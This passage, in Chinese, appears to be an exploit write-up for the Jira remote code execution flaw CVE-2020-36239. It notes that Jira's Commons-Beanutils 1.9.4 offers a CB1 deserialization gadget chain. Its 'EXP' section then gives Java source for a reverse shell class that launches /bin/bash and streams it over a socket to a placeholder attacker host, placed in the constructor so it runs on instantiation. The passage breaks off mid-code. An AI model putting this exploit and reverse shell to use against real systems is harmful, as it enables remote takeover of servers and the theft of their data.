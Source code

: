 ![image.png](./Jira_CVE2020-36239_RCE.assets/2023_05_19_16_08_49_PR0jwHOI.png)

通过查看Jira 是否用了存在利用链的包，Commons-Collection 都用了相对安全的版本，但是 Commons-Beanutils 1.9.4 存在利用链，那么就可以利用CB1来构造序列化对象

### EXP
首先编写shell.java，利用socket 编程反弹shell到目标地址，注意这里一定要写进无参构造函数，因为利用CB1链，通过javassit写入到新的类，再将其转换成bytecode 放在TemplatesImpl._bytecodes时，最后执行的是newInstance()，也就是实例化的过程，需要放在构造函数中
```java
package com.myproject.temp;

public class shell {
    public shell(){
        try{
            String host = "xxx.xxx.xxx.xxx";
            int port = port;
            String cmd = "/bin/bash";
            java.lang.Process p = new java.lang.ProcessBuilder(cmd).redirectErrorStream(true).start();
            java.net.Socket s = new java.net.Socket(host, port);
            java.io.InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
            java.io.OutputStream po = p.getOutputStream(), so = s.getOutputStream();
            while (!s.isClosed()) {
                while (pi.available() > 0) {
                    so.write(pi.read());
                }
                while (pe.available() > 0) {
                    so.write(pe.read());
                }
                while (si.available() > 0) {
                    po.write(si.read());
                }
                so.flush();
                po.flush();
                Thread.sleep(50);
                try {
```